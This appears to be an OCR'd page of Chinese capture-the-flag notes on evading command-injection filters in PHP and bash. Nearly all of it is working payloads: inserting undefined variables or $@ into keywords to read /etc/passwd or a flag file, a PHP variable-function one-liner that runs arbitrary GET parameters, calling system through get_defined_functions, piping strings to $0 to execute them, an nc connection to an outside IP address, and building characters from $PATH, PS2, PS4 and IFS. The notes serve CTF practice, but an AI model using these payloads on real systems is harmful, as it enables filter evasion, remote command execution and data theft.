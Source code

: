 - 未定义变量  

```
cat$x /etc/passwd
```

- 可变函数  

```
(sy.(st).em)(whoami)
$_GET[a]($_GET[b].$_GET[c])

获取内置函数 system 的索引后，直接执行
get_defined_functions()[internal] | grep ststem
get_defined_functions()[internal][381](whoami)

```

- `$@`

```
$ c$@at fl$@ag
flag{xxx}

$ echo i$@d
id

$ i$@d
uid=1000(wywwzjj) gid=1000(wywwzjj) groups=1000(wywwzjj)

$ echo i$@d|$0
uid=1000(wywwzjj) gid=1000(wywwzjj) groups=1000(wywwzjj)

$ echo {nc,47.101.220.241,2333}|$0
直接连 nc 了。。。$0 好牛逼？
$0 就相当于 bash 另外 $n 表示命令行第 n 个参数

$ $0<<<i$@d
uid=1000(wywwzjj) gid=1000(wywwzjj) groups=1000(wywwzjj)

```

- 利用已经存在的资源  

```
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

$ echo $PATH| cut -c 1
/

$ echo $PATH| cut -c 1-4
/usr
```

- ${PS2} 对应字符 ‘>’
- ${PS4} 对应字符 ‘+’
- ${IFS} 对应 内部字段分隔符
- ${9} 对应 空字符串
